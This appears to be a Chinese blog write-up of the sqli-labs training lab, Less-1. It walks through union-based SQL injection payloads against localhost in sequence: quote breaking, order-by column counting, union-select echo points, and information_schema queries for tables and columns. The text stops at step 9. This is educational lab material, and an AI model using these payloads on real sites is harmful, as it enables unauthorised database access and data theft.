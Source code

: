 ```yaml
---
title: 【靶场】sql-labs-Less1-5
date: 2025-08-29
categories:
  - 靶场
image: images/19.webp
---
```

# Less-1
**验证注入点：单引号报错，两个单引号闭合利用闭合方式：`' <payload> --+`**
1.进入第一题，显示`Please input the ID as parameter with numeric value`，告诉了我们参数为`id`
![Pasted image 20250313160458](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313160458.png)
2.构造`?id=1`,页面显示正常
```php
http://localhost/sqli-labs/Less-1/?id=1
```
![Pasted image 20250313160541](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313160541.png)
3.接下来加个单引号，显示语句出错，根据报错信息可以得知参数id的值被单引号包裹
```php
http://localhost/sqli-labs/Less-1/?id=1'
```
![Pasted image 20250313160614](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313160614.png)
4.构造`?id=1' and '1'='1`页面重新显示正常，由此判断出这题是**单引号字符型注入**
```php
http://localhost/sqli-labs/Less-1/?id=1' and '1'='1
```
![Pasted image 20250313160735](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313160735.png)
5.构造`?id=1' order by 1 --+`通过order by子句来判断该数据表的字段数，页面显示正常。
```php
http://localhost/sqli-labs/Less-1/?id=1' order by 1 --+
```
![Pasted image 20250313160914](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313160914.png)
构造`?id=1' order by 4 --+`页面显示错误信息，由此可知该表**字段数为3**
```php
http://localhost/sqli-labs/Less-1/?id=1' order by 4 --+
```
![Pasted image 20250313161001](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313161001.png)
6.构造`?id=-1' union select 1,2,3 --+`判断出**回显点为该表的第二、三字段**
```php
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```
![Pasted image 20250313161256](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313161256.png)
7.构造`?id=-1' union select 1,2,database() --+`知道了**数据库名为security**
```php
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,database() --+
```
![Pasted image 20250313161350](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313161350.png)
8.构造
```php
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```
**在数据库information_schema中的tables表里查询出security数据库的表有：emails,referers,uagents,users**
![Pasted image 20250313161444](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313161444.png)
9.构造
```php
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```